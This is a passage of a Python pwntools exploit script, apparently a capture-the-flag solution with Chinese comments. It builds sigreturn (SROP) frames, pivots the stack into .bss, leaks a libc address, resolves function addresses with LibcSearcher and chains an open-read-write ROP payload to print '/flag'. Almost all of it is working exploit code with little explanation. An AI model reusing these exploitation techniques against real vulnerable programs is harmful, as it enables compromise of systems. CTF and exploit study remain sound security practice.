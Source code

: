 ```jsx
frame_write.rip = syscall_addr
frame_write.rsp = base_addr + 0xF0 + 0x8 * 4  #一个SigreturnFrame()大小0xF0 控制栈顶

frame_read_data = SigreturnFrame()
frame_read_data.rdi = 0  #由于syscall之前对寄存器做了移位，所以不是rax
frame_read_data.rsi = 0
frame_read_data.rdx = bss_addr
frame_read_data.rcx = 0x228
frame_read_data.rsp = base_addr  #由于不知道栈的地址，将其迁移到bss段进行控制
frame_read_data.rip = syscall_addr  #直接调用syscall运行设置的函数
# first send
payload += p64(pop_rdi) + p64(0xf) + p64(syscall_addr) + bytes(frame_read_data)

r.send(payload)
time.sleep(1)

#----------------------------------------

frame_read_data = SigreturnFrame()
frame_read_data.rdi = 0
frame_read_data.rsi = 0
frame_read_data.rdx = bss_addr + 0x100
frame_read_data.rcx = 0x8 * 30
frame_read_data.rsp = base_addr + 0x100
frame_read_data.rip = syscall_addr

payload_read = p64(pop_rdi) + p64(0xf) + p64(syscall_addr) + bytes(
    frame_read_data)
# second send
payload = p64(0) + p64(pop_rdi) + p64(0xf) + p64(syscall_addr) + bytes(frame_write)
payload += p64(pop_rdi) + p64(0xf) + p64(syscall_addr) + bytes(frame_read_data)
#gdb.attach(r)
r.send(payload)

#泄露libc地址
#----------------------------------------
libc_syscall_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

libc = LibcSearcher('syscall',libc_syscall_addr)
libc_base = libc_syscall_addr - libc.dump('syscall')
open_addr = libc_base + libc.dump("open")
write_addr = libc_base + libc.dump("write")
read_addr = libc_base + libc.dump("read")

info(f'libc_syscall_addr = {hex(libc_syscall_addr)}')
info(f'libc_base = {hex(libc_base)}')

pop_rsi = 0x0002601f + libc_base
pop_rdx = 0x00142c92 + libc_base
syscall_addr = syscall_addr + 23  #此处将syscall的移位去掉了
pop_rax = 0x0036174 + libc_base

time.sleep(1)
#ORW
payload = b'/flag\x00\x00\x00'+p64(pop_rdi)+p64(bss_addr + 0x100) + p64(pop_rsi) + p64(0)+ p64(open_addr)
payload +=p64(ret_addr)+ p64(pop_rdi)+p64(3) + p64(pop_rsi) + p64(bss_addr+0x300) + p64(pop_rdx) + p64(0x100) + p64(read_addr)
payload +=p64(ret_addr)+ p64(pop_rdi)+p64(1) + p64(pop_rsi) + p64(bss_addr+0x300) + p64(pop_rdx) + p64(0x100) + p64(write_addr)

#bss_addr + 0x8 * 25 是flag的位置

```